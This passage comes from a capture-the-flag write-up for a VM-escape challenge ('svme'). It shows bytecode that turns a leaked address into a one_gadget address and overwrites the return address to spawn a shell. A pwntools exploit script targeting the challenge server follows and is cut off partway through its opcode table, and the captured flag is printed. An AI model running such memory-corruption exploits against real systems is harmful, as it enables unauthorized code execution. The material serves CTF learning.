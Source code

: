 ```
// Leak to libc_base addr
ICONST 0x270b3
ISUB
// libc_base addr to one_gadget addr
ICONST 0xe6c81
IADD
```

Right now we have the address of our desired one-gadget on the stack and just got to redirect the code execution there. Luckily, the return address is always at `*code` leak - 40, so we can write our calculated one-gadget address there:

```
// Reloading code-pointer onto the stack
LOAD -996
LOAD -997
// Calculating address of return address on stack
ICONST 40
ISUB
// And then writing that to the global-pointer
STORE -993
STORE -992
// Finally writing one_gadget address onto ret-addr
GSTORE 0
GSTORE 1
// Escaping vm_exec function and triggering ret
HALT
```

And that is it, if you pack that into a python script, pad it to 128 ints and send it to the process, you should pop a shell! If you run the exploit code I have added below with the `REMOTE` argument (if the challenge is still up), you will get the following flag:

`rwctf{simple_vm_escape_helps_warming_up_your_real_world_hacking_skill}`

**Thanks for reading this writeup!** 

# The Exploit Code

My final exploit code can be seen below:

```python
#!/usr/bin/env python3
from pwn import *
from struct import pack

if args["REMOTE"]:
    p = remote("47.243.140.252",1337)
else:
    p = process("./svme")

o = {
    "NOOP"    : p32(0),
    "IADD"    : p32(1),   # int add
    "ISUB"    : p32(2),
    "IMUL"    : p32(3),
    "ILT"     : p32(4),   # int less than
    "IEQ"     : p32(5),   # int equal
    "BR"      : p32(6),   # branch
    "BRT"     : p32(7),   # branch if true
    "BRF"     : p32(8),   # branch if true
    "ICONST"  : p32(9),   # push constant integer
    "LOAD"    : p32(10),  # load from local context
    "GLOAD"   : p32(11),  # load from global memory
    "STORE"   : p32(12),  # store in local context
    "GSTORE"  : p32(13),  # store in global memory
```